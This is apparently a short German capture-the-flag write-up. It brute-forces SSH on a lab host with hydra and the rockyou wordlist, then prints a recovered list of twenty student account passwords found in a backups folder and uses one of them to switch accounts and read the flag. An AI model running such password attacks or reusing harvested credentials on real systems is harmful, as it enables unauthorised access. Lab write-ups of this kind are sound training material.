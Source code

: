 
hydra -l student01337 -P /usr/share/wordlists/rockyou.txt ssh://10.65.9.16
Passwort ist `hector`

unter Backups findet man eine Passwortliste:
```
student00776:bpH5XZCAmvNrGjzm
student00398:TYzPZFqNNOWsoQrx
student00111:MDQCtbYlzlBCW8zz
student00191:omHDh94n5W7v55Y6
student00557:S8blMfBCcbYKpa04
student00924:h58cMEruAt6YS29E
student00024:UnYg0Rj4tVV0y2hA
student00573:LNwbZA9oe7XBU5mS
student00801:fU20bVAjnS1EZHqW
student00949:LmL0hUshxJITk7zm
student00986:z2RjBOlgHlVOtwSY
student00246:lcEzmqO6Rbi9wz1S
student00171:sY0t4hlhcoSPtn0s
student00073:oItotvSGXxZfqj25
student00144:RiVM6K3w1A5cdyxp
student00730:2jKKDYdPJerGKMeB
student00298:YC1iblw0e8ROgUoS
student00683:8jhyqIem240rt7gZ
student00345:iTzDKl1deVECKmni
student00042:qdeZZDuIAEiEnpOP
```

Auf dem System ist außerdem ein Heimatverzeichnis von `student00042`. Mit `su student00042` und dem Passwort kann man den Account wechseln, unter `/home/student00042/webseite/index.html` findet man die Flag.

